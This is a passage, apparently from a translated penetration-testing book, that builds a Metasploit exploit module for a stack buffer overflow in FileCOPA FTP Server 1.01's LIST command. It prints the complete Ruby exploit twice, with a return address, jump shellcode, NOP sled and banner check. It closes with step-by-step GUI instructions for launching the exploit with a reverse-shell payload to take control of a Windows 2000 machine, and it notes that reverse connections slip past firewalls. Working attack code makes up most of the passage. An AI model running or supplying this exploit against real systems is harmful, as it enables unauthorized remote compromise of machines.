在这种情况下，位于 ECX 寄存器中的地址将被压入堆栈，然后调用`return`方法。`return`函数将堆栈上的有效载荷地址加载到指令指针中，并将导致我们的有效载荷被执行。从 FTP 服务器执行到我们的有效载荷的转换是我们正式控制进程的时候。除非这个转换是完美的，否则漏洞利用将不会工作。

我们邪恶的`LIST`论证的最后两部分是一个相当大的 NOP 滑梯（长度为 444 个字符）和编码后的有效载荷。整个字符串以回车和换行符结束，这会让 FTP 服务器知道我们已经完成了数据的发送。`buf`包含一个非常长的字符串，但正如示例代码所示，它在每一行都被分割开来。

为了完成漏洞利用，我们的模块通过`buf`发送包含恶意字符串的`LIST`命令。结果是获得了一个 Windows 2000 Service Pack 4 的 root 权限机器。如果你从未使用过 MSF，那么`reverse_shell`连接是一个很好的起始有效载荷。有效载荷会指示受害机器将命令提示符发送到你的地址。`handler`捕获会话，让你能够完全控制该机器。反向连接的另一个优点是，由于连接是从受害者的网络内部发起的，它很容易绕过防火墙。现在你的模块应该看起来像这样：

`require 'msf/core'  module Msf      class Exploits::Windows::Ftp::FileCopa_List < Msf::Exploit::Remote      include Exploit::Remote::Ftp      def initialize(info = {})      super(update_info(info,      'Name'         => 'FileCOPA 1.01 <= 列表溢出',      'Description'  => %q{此模块利用了 FileCOPA 多协议文件传输服务中的堆栈溢出。此漏洞利用需要有效的用户账户（或匿名访问）才能工作。      },      'Author'         => 'Steve <Steve@nostarch.com>',      'License'        => MSF_LICENSE,      'Version'        => '$Revision: 4498 $',      'References'  =>              [              ['OSVDB', '27389'],              ],      'Privileged'     => true,      'DefaultOptions' =>              {              'EXITFUNC' => 'thread',              },      'Payload'        =>              {              'Space' => 1000,              'BadChars' => "\x00",              },      'Targets'        =>              [              [                      'Windows 2000 Professional SP4 英文版',                      {                              'Platform' => 'win',                              'Ret' => 0XDEADBEEF,                              },                      ],              ]))      end      def exploit      connect_login      print_status("尝试目标 #{target.name}...")      jmp_ecx = "\x66\x81\xc1\xa0\x01\x51\xc3"      buf = "A\x20" + rand_text_english(160, payload_badchars)      buf << [target.ret].pack('V')      buf << make_nops(4) + jmp_ecx      buf << make_nops(444) + payload.encoded + "\r\n"      send_cmd( ['LIST', buf] , false)      handler      disconnect      end      endend`

MSF 有一些特性可以帮助稍微提升利用过程。我们将在`initialize`和`exploit`之间添加一个名为`check`的新方法到模块中。这个方法将通过分析 banner 来确定目标是否容易受到这种利用的攻击。为此，我们需要知道一个易受攻击系统的 banner 看起来是什么样子的。提醒一下：如果系统管理员更改了 banner，那么这个检查将不会起作用。由于大多数 banner 都保持不变，这通常简化了目标验证过程。

该模块将连接到目标机器的 21 端口，获取 banner，然后断开连接。如果 banner 包含*FileCOPA FTP Server Version 1.01*，我们知道目标容易受到攻击。如果 banner 检查失败，那么我们可能需要寻找另一个攻击向量，或者我们仍然可以尝试利用。下面是检查方法的代码：

`def check connect disconnect if (banner =~ /FileCOPA FTP Server Version 1.01/) return Exploit::CheckCode::Vulnerable end return Exploit::CheckCode::Safe end`

现在将所有 MSF 模块代码放在一起，你得到一个完全功能的利用：

`require 'msf/core'  module Msf   class Exploits::Windows::Ftp::FileCopa_List < Msf::Exploit::Remote   include Exploit::Remote::Ftp   def initialize(info = {})   super(update_info(info,   'Name' => 'FileCOPA 1.01 <= List Overflow',   'Description' => %q{This module exploits a stack overflow in the FileCOPA multi-protocol file transfer service. A valid user account (or anonymous access) is required for this exploit to work.   },   'Author' => 'Steve <Steve@nostarch.com>',   'License' => MSF_LICENSE,   'Version' => '$Revision: 4498 $',   'References' => [   ['OSVDB', '27389'],   ],   'Privileged' => true,   'DefaultOptions' => {   'EXITFUNC' => 'thread',   },   'Payload' => {   'Space' => 400,   'BadChars' => "\x00\x0b\x0a\x0d\x20\x23\x25\x26\x2b\x2f\x3a\x3f\x5c",   'SaveRegisters' => ['ecx'],   },   'Targets' => [   [   'Windows 2000 Professional SP4 English',   {   'Platform' => 'win',   'Ret' => 0x77E14C29,   },   ],   ]))   end   def check   connect   disconnect   if (banner =~ /FileCOPA FTP Server Version 1\.01/)   return Exploit::CheckCode::Vulnerable   end   return Exploit::CheckCode::Safe   end   def exploit   connect_login   print_status("Trying target #{target.name}...")   jmp_ecx = "\x66\x81\xc1\xa0\x01\x51\xc3"   buf  = "A\x20" + rand_text_english(160, payload_badchars)   buf << [target.ret].pack('V')   buf << make_nops(4) + jmp_ecx   buf << make_nops(444) + payload.encoded + "\r\n"   send_cmd( ['LIST', buf] , false)   handler   disconnect   end   end end`

这就完成了利用。接下来要做的就是测试它。因此，在受害者机器上重新启动 FTP 服务器，并在您的攻击机器上重新加载`FileCOPA`模块。以下是步骤的简要概述：

1.  在 MSF GUI 中搜索*FileCOPA*。

1.  双击**FileCOPA LIST Exploit**。

1.  将弹出一个新窗口。

1.  从下拉菜单中选择正确的目标：**Windows 2k Server SP4 English**。

1.  选择一个有效载荷：**generic/shell_reverse_tcp**。

1.  你需要添加`RHOST`，即远程主机，以及`LHOST`，本地主机。

1.  点击**应用**—这将启动利用。

1.  窗口将关闭，并在作业面板中显示一个新作业。

1.  如果利用成功，你将在会话面板中看到一个新会话。

1.  要查看应用后的结果，请点击左下角的**模块输出**标签。

现在你已经拥有了一个 shell，我们来到了本章开头提到的“管理阶段”。这个例子进行得相当迅速，我总是觉得自己在没有跟随示例的情况下利用系统更耗时。如果你决定自己尝试这些技巧，请记住要有耐心。这是一场永无止境的学习游戏，所以不要忘记享受这个过程。祝你好运！;-)
